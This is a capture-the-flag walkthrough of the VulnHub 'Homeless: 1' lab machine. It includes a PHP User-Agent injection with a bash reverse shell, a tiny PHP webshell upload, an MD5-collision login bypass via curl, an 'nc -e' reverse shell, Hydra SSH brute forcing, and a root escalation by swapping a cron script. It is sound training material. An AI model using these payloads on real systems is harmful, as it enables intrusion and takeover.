# Homeless

| Name | Homeless: 1 |
| --- | --- |
| Date release | 6 Dec 2017 |
| Author | Creatigon |
| Link | https://www.vulnhub.com/series/securecode,445/ |

## Goals

You will be required to break into target server,exploit and root the machine, and retrieve the flag. The flag will contain more information about my private info..

**Machine IP:** 192.168.26.132

## Recon

Running Nmap we see that there are 2 ports open, 22 SSH and 80 HTTP:



### Port 80

Looking at the website on port 80 I see an interesting thing on top of a image, what seems to be my User-Agent:



Maybe we can inject some code there changing the User-Agent. First thing to check is what framework the website is built on. When trying to access [http://192.168.26.132/index.php](http://192.168.26.132/index.php) I got a 200 OK response and the site loads.

So now we know that the website is built on PHP lets try to inject some code.

```php
User-Agent: <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.26.128/4444 0>&1'"); ?>
```

After trying for a couple minutes, nothing, except XSS, works.

### Favicon

Another interesting thing is the webpage icon, it does look weird:


Looking closer [http://192.168.26.132/images/favicon.jpg](http://192.168.26.132/images/favicon.jpg):



Hard to read but if we put the words that are on the top of the image “Cyberdog Sledding Portal” in the User-Agent header it give us a hint to another page.



🤨 This part of the machine I didn’t like much, very unrealistic.


### Upload File

Accessing [http://192.168.26.132/myuploader_priv/](http://192.168.26.132/myuploader_priv/) we get a file upload form:



Trying to upload a php reverse shell gives me an error saying that the file is too large:



Even trying the smallest RCE in PHP I know `<?=$_GET[1]?>` was being flagged as too large. However, how about this:

```bash
echo -n '<?=`ls`;' > test.php
```

It is only 8 bytes!! Uploading the file called `test.php` works! 



Accessing [http://192.168.26.132/myuploader_priv/files/test.php](http://192.168.26.132/myuploader_priv/files/test.php) lists the files in the current directory:



Lets read that hash file:



It is a hint to the next step.

## Sign in

[http://192.168.26.132/d5fa314e8577e3a7b8534a014b4dcb221de823ad/](http://192.168.26.132/d5fa314e8577e3a7b8534a014b4dcb221de823ad/)



I clicked on “Need hint?” after trying several techniques and failed. It give us the source code of `index.php`:



### Code Analyses

The authentication mechanism of the form is to check the **md5 hashes** of the three provided values, compare them and return a valid session in case the hashes are identical. The trick here is that you can’t just pass equal values on the form and get the same **md5 hashes** as there is a pre-check that validates the input and requires the values of the fields to be different.

So what we need here is to either steal someone else’s session or generate real md5 collisions

The solution is to generate **md5 collisions** using a collision generator like [Python MD5 Collision Library](https://github.com/thereal1024/python-md5-collision) by Stephen Halmor [hashclash](https://marc-stevens.nl/p/hashclash/) by Marc Stevens to **generate a pair of collisions** and attach them to the POST query as binary data.

### Generating MD5 Collision

Here is the Python library to use:

[https://github.com/thereal1024/python-md5-collision](https://github.com/thereal1024/python-md5-collision)



Now how do we pass this to the web server? The easiest way is using Curl!

```bash
curl --data-urlencode username@out_test_001.txt --data-urlencode password@out_test_002.txt --data-urlencode code@out_test_003.txt --data-urlencode "remember=1&login=Login" http://192.168.26.132/d5fa314e8577e3a7b8534a014b4dcb221de823ad/index.php -i
```



Adding the cookie to our PHPSESSION we can access [http://192.168.26.132/d5fa314e8577e3a7b8534a014b4dcb221de823ad/admin.php](http://192.168.26.132/d5fa314e8577e3a7b8534a014b4dcb221de823ad/admin.php):



From here we have code execution on the machine:



Lets get a reverse shell:

```bash
nc -e /bin/sh 192.168.26.128 4444
```



## Shell as WWW-DATA

We are in.



Poking around I find a file called `todo.txt` in the `/home/downfall/` directory:



The hint talks about python.

What we are looking for is a python script with **insecure file permissions** belonging to the downfall group, or a script where the owner is root and the file is of a different group:

```bash
find / -type f -user root -group downfall 2>/dev/null
```





The above screenshot shows that the user downfall (belonging to the downfall group) has write privileges to this file. The files’ contents suggest that this may be a script called via a cron job, and the chances of it being run as root are high.

Connecting the dots from previous enumeration, specifically the contents of the `robots.txt` file (remember rockyou), and now having a username means that we might have to use the `rockyou.txt` wordlist on the user downfall and try to brute force the password.

### Bruteforce SSH downfall user

The creator of this VM is kind enough to suggest that the password starts with “sec”. Lets generate a wordlist based on `rockyou.txt` with only words that start with “sec”:

```bash
grep -Pao '^sec.*$' /usr/share/wordlists/rockyou.txt > seclist.txt
```

Bruteforce SSH using Hydra:

```bash
hydra -l downfall -P seclist.txt ssh://192.168.26.132
```

Found the password:



Ok, lets SSH in as `downfall` user and password `secretlyinlove`:



Reading the file `.secret_message` we get a hint into how escalate to root:



Below I used [PSPY](https://github.com/DominicBreuker/pspy) to monitor the processes and confirmed that `homeless.py` is being called from the cronjob with UID 0 (root):



Since `homeless.py` does not have “execution” permissions and only `root` can change it, we need to create a new file:

1. Moved `homeless.py` to `homeless.py.bak`.
2. Created a new file called `homeless.py` and added a bash reverse shell:



1. Started a netcat listener on my local machine and wait for the cronjob to trigger:



We are root!